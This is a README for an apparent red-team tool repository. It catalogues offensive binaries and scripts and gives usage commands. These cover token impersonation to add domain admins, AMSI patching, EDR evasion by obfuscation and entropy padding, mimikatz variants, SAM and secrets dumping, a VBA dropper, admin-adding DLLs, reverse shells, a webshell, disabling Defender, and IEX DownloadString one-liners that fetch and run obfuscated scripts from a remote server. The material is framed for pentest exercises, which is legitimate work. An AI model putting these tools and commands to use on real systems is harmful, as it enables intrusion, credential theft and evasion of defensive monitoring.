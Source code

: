 # Red Team Arsenal

Some binaries/scripts that may be useful in red team/pentest exercises.

Most of the stuff here is far from fancy or the best solution possible, sorry :(... they just do the job and might come in handy for you in some way.

---

* adduserbyimpersonation.cpp: A modified version of sensepost's [impersonate](https://github.com/sensepost/impersonate) to only impersonate a token and add a new local admin/domain admin user to a computer/domain.
	*  `.\adduserbyimpersonation.exe list` to list tokens.
	*  `.\adduserbyimpersonation.exe adduser <token_ID> <username> <password> <server>` to add a new user impersonating the \<token_ID>. If \<server> is a DC, it will add a new domain user. If \<server> is a regular domain computer, it will add a new local user (SAM).
	*  `.\adduserbyimpersonation.exe addtodomaingroup <token_ID> <username> <domain_group> <server>` to add an existing domain user to a domain group.
	*  `.\adduserbyimpersonation.exe addtolocalgroup <token_ID> <username> <local_group> <server>` to add an existing local user/domain user to a local group (e.g. builtin "Administrators" group).
* GetNPUsers.exe: GetNPUsers.py from impacket compiled to .exe via pyinstaller.
* b_python.exe: BloodHound.py project compiled to .exe via cx\_Freeze. You may want to run this with `--disable-pooling` flag.
	* `.\b_python.exe -u <username> -p <pass> -d <domain> -dc <dc_fqdn> -gc <dc_fqdn> -ns <dc_ip> -c all --disable-pooling` 
* generate\_malicious\_lnk.ps1: Malicious .lnk generator (with wordpad.exe icon).
* cpy.exe: Certipy project compiled to .exe via cx\_Freeze. Bypassing many EDRs.
* CreateSymlink.exe: Precompiled "CreateSymlink.exe" from James Forshaw's
* html\_smuggling\_loader.html: A HTML smuggling template.
* hook\_detector.cs: EDR Hooks Detector in C#. Modify the code to include other win32 APIs.
* find\_cpassword\_sysvol.ps1: A simple ps1 script to search for "cpassword" references in SYSVOL folder.
* find\_pwd\_shared\_folder.ps1: A simple ps1 script to search for password/juicy references in a given shared folder. Modify `$ComputerName`, `$DomainName` and `$SharedFolder` variables accordingly.
* enum\_gpos.ps1: A ps1 script to enum the ACLs associated to GPOs in the environment. Implemented using ADSI so you don't need any external module.
* crackmapexec.exe: CrackMapExec compiled to .exe.
* crackmapexec_t.exe: CrackMapExec compiled to .exe with reduced entropy to bypass some specific EDRs (~~CS Falcon~~).
* AMSI\_bypass\_cross\_project.cpp: Patch AMSI in a given PID (C++). 
	* `.\AMSI_bypass_cross_project.exe <PID>`
* amsi\_patching\_go.go: Patch AMSI in a given PID (go). 
	* `.\amsi_patching_go.exe <PID>`
* amsipythonbypass.zip: AMSI patching implemented in Python. Extracted from FluidAttacks [post](https://fluidattacks.com/blog/amsi-bypass-python/).
* add\_user\_dll.cpp / adduser.dll: DLL that adds a new local admin user when loaded. Dynamically look up for local Administrators group name and add the user using windows APIs to avoid using net.exe/net1.exe.
	* Compilation in Linux --> `i686-w64-mingw32-gcc -shared -o adduser.dll add_user_dll.cpp`
* add\_user\_dll2.cpp: DLL that adds a new local admin user when loaded (via system(net.exe...) method).
	* Compilation in Linux --> `i686-w64-mingw32-gcc -shared -o adduser2.dll add_user_dll2.cpp`
* Invoke-Mimikatz.ps1: Powershell mimikatz with some minor bug fixes.
* SpoolSample.exe: SpoolSample precompiled binary (printerbug).
* bin\_to\_uuids.py: .bin to uuids converter, useful for UUID injection.
	* `python3 bin_to_uuids.py payload.bin`
* aes\_sektor7.py: AES256 encryption script extracted from Sektor7. Modified this to also save an `encrypted.bin` file that later may be imported as .rsrc in a maldev template. 
	* `python3 aes_sektor7.py payload.bin`, it will generate a encrypted.bin on /tmp.
* decrypt_aes.cpp: AESdecrypt sample.
* SharpPrintNightmare.exe: SharpPrintNightmare precompiled binary.
* obf-sharphound.ps1: SharpHound.ps1 obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-sharphound.ps1"); undertow -GdHcDvjN99 all`
* obf-pnightmare.ps1: PrintNightmare obfuscated by pyfuscation. Use with DLL "add\_user\_dll.cpp" or "add\_user\_dll2.cpp"
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pnightmare.ps1"); essentially -Dll "C:\Users\public\Desktop\adduser.dll"`
* obf-pup.ps1: Powerup obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pup.ps1"); pave`
* rpivot.exe: rpivot.py compiled to .exe through cx\_freeze. Useful to establish SOCKS proxy communication in legacy powershell versions (e.g. v2).
	* `.\rpivot.exe --server-ip <IP> --server-port <PORT>`
	*  On remote server: `python3 server.py --server-IP <IP> --server-port <PORT> --proxy-ip 127.0.0.1 --proxy-port 1080`
* ch.exe: chisel.exe + limelighter project.
* netman\_sth.exe / netman\_sth\_x86.exe: A more stealth NetMan service trigger. Used to exploit a well known DLL hijacking when we have a writeable %PATH% directory in Windows Servers ([reference](https://itm4n.github.io/windows-server-netman-dll-hijacking/)). 
* WSuspicious.exe: WSUSpicious precompiled binary.
* Rubeus\_encrypted.exe: Rubeus encrypted by nimcrypt2.
* Rubeus.xml: Rubeus.xml to be executed with msbuild.exe.
* SharpKatz.xml: SharpKatz.xml to be executed with msbuild.exe.
* SharpPrintNightmare.exe: Precompiled SharpPrintNightmare.
* c.exe: Certify.exe + InvisibilityCloak obfuscation.
* dictionary.txt: Just a english dictionary to be appended on binaries to reduce entropy.
	* `cat dictionary.txt >> t.exe`
	* Check compressibility: `gzip -v -c t.exe > /dev/null`
* only\_sam\_dump.exe / only\_sam\_dump.py: Python script (compiled to .exe) to dump SAM/SYSTEM hives only. Based on secretsdump script. Created just to evade some EDR products.
* secretsdump.exe: secretsdump compiled to .exe via cx\_freeze.
* smbmap.exe: smbmap project compiled to .exe.
* weblogic\_pw\_decryptor.py: A decryptor to weblogic passwords contained in config.xml
* keytabextract.py: Python script to extract NTLM Hashes from KeyTab files
	* `./keytabextract.py <keytabfile>`
* mimi\_peruns\_fart.exe: A more stealth mimikatz.exe (donut + payload encryption + peruns fart applied)
* m\_obf2.exe: Mimikatz + Inceptor project
* mimikatz-nimcrypt2.exe: Mimikatz.exe encrypted with nimcrypt2 project
* dropper.vba: A simple VBA dropper. C# code extracted from .DOCX/.XLSX "comments" section (`ActiveDocument.BuiltInDocumentProperties("Comments").Value`)
* xor.cs: A XOR template in C#.
* CVE-2020-14882.py: Python script to exploit CVE-2020-14882.
* dwrite.dll: DLL used to exploit a DLL sideloading on Microsoft Teams (Microsoft Teams searches for this non-existent DLL on its startup).
* windows\_license.vbs: VBS to extract windows licenses... old content.
* disable-defender.ps1: A ps1 script to disable Windows Defender.
* dllinj.go: Process injection implemented in golang.
* screenshot.ps1: A ps1 script to take a desktop screenshot. Modify the `$File` variable to specify the location for saving the .bmp image.
* bleedhound.zip: An obfuscated version of BloodHound project.
* merge\_nessus\_files.py: Python script to merge multiple .nessus files.
* modshadowpass.sh: Useful to modify passwords when we have write privileges to /etc/shadow (this is NOT opsec-friendly :)
* reverse\_shell.py: A simple revshell in py... old content, you may want to use https://www.revshells.com/.
* reverse\_shell.sh: A simple revshell in sh... old content, you may want to use https://www.revshells.com/.
* systracing_cve-2020-0668.txt: Steps to reproduce CVE-2020-0668.
* webshell.aspx: ASP.NET webshell. A defined "AUTHKEY" is required to interact with it (line 8).

